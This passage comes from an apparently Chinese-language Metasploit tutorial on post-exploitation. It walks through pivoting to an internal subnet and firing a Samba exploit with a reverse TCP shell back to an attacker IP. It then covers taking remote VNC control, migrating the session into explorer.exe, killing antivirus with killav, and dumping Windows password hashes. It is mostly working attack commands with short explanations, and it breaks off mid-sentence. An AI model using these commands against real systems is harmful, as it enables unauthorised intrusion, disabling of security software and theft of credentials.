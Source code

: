 例子：

```
meterpreter> run get_local_subnets  #查看网段/子网
Local subnet: 192.168.33.0/255.255.255.0
meterpreter> background  #转入后台运行
msf> route add 192.168.33.0 255.255.255.0 1  #本地添加路由信息
msf> route print #查看添加的信息
msf> use linux/samba/lsa_transnames_heap   #准备向内网目标主机进攻
set payload linux/x86/shell/reverse_tcp
set LHOST 10.10.1.129 #此处为attacking主机的外网IP 
set LPORT 8080
set RHOST 192.168.33.132 #内网目标主机
exploit
```

也可以使用自动式添加路由模块：

```
msf> load auto_add_route
msf> exploit
```

### 4、Meterpreter脚本：
使用run scriptname 方式执行

vnc脚本,获取远程机器vnc界面控制

```
meterpreter> run vnc
meterpreter> run screen_unlock
```

进程迁移

当攻击成功后将连接进程从不稳定进程（如使用浏览器溢出漏洞exp进行攻击时浏览器可能会被目标关闭）迁移至稳定进程(explorer.exe)，保持可连接。

例子：

```
meterpreter> run post/windows/manage/migrate
```

（在64位win7中migrate需要管理员权限执行后门才能成功，而migrate前后获取的权限是有差异的。）

关闭杀毒软件

```
meterpreter> run killav   （这个脚本要小心使用，可能导致目标机器蓝屏死机。）
```

获取系统密码hash

```
meterpreter> run hashdump
```

（64位win7下需要管理员权限执行后门且先getsystem，然后使用

```
run  post/windows/gather/hashdump来dump hash成功率更高。
```
而且如果要使用shell添加系统账户的话win7下得先：
